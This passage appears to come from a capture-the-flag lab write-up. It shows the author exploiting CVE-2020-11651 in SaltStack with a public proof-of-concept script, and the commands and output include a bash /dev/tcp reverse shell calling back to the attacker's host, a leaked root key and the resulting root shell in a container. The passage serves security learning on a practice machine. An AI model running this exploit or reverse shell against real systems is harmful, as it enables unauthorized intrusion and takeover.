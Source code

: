 At `tcpdump`, I got the ping:

```

root@kali# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
15:32:16.127560 IP 10.10.10.205 > 10.10.14.15: ICMP echo request, id 9630, seq 1, length 64
15:32:16.127615 IP 10.10.14.15 > 10.10.10.205: ICMP echo reply, id 9630, seq 1, length 6

```

#### Shell

I’ll just change the command to a reverse shell:

```

root@kali:/opt/CVE-2020-11651-poc# proxychains python3 exploit.py --exec 'bash -c "bash -i >& /dev/tcp/10.10.14.15/443 0>&1"'
ProxyChains-3.1 (http://proxychains.sf.net)
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
[+] Checking salt-master (127.0.0.1:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: HWxqacQWZGow8QrRBTcMKALAYRqsdT2t30kwsV8MBIYk03o/4UV8puHk788hKPT4mPdRg55WyEI=
[+] Attempting to execute bash -c "bash -i >& /dev/tcp/10.10.14.15/443 0>&1" on 127.0.0.1
[+] Successfully scheduled job: 20200901193454581517

```

At `nc`, I get a shell as root in a container:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.205.
Ncat: Connection from 10.10.10.205:39680.
bash: cannot set terminal process group (9655): Inappropriate ioctl for device
bash: no job control in this shell
root@2d24bf61767c:~# id
uid=0(root) gid=0(root) groups=0(root)

```

## Shell as root

### Enumeration

In the root home directory, there’s a `todo.txt`:

```
- Add saltstack support to auto-spawn sandbox dockers through events.
- Integrate changes to tomcat and make the service open to public.

```
